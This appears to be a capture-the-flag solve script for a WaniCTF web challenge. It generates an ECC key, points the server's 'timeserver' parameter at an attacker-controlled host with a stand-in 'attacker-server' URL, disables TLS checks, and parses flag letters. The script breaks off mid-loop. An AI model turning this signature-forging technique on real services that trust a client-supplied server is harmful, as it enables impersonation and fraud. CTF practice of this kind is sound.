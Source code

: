 
```python
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
import hashlib
import time
import requests
import re
import time

import urllib3
urllib3.disable_warnings()

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')

print(pubkey)  # paste at http://attacker-server/pubkey

headers = {
  'Content-Type': 'application/json',
}

proxies = {
  "http": "0.0.0.0:8080",
  "https": "0.0.0.0:8080"
}

time.sleep(10)


def send_req(tstamp, signature):
  json_data = {
      'timestamp': tstamp,
      'signature': signature,
      'timeserver': 'happi.free.beeceptor.com',
  }
  response = requests.post(
      'https://web-one-day-one-letter-content-lz56g6.wanictf.org/',
      headers=headers,
      json=json_data,
      verify=False,
      proxies=proxies,
  )
  return response

def find_letter(html):
    pattern = r'FLAG{\?+([a-zA-Z]).*}'
    match = re.search(pattern, html) 
    
    if match:
        return match.group(1)
    else:
        return 1


if __name__ == "__main__":
    timestamp = int(time.time())
    flag = [0]*12

    for i in range(12):
      idx = timestamp // (60*60*24) % 12
      print(f"{timestamp} -> {idx}")

```